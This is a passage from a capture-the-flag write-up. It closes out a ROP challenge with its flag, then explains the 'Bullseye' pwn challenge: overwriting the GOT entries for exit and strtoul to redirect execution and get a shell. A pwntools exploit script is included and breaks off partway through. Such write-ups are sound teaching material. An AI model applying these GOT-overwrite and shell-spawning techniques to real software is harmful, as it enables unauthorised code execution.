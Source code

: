 ```py
io.sendline(rop)
io.interactive()
#flag{radically_statically_roppingly_vulnerable}
```
## Bullseye
points - 150
You have one write, don't miss.

Connect with:
nc jh2i.com 50031

No-Pie, and Partial-Relro,
This challenge allowed us to write anything at anywhere into memory,
Got was partial-relro, exit() was called at the end, so i choose to overwrite exit() got with main, and binary prints a libc address,
find libc address with libc-database, we get another chance to overwrite this time i chose to overwrite strtoul with system.
and send '/bin/sh'.

#### exploit
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./B')

host = args.HOST or 'jh2i.com'
port = int(args.PORT or 50031)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()
io.recvuntil('write to?\n')
io.sendline(hex(exe.got['exit']))
io.recvuntil('write?\n')
io.sendline(hex(exe.sym.main))
```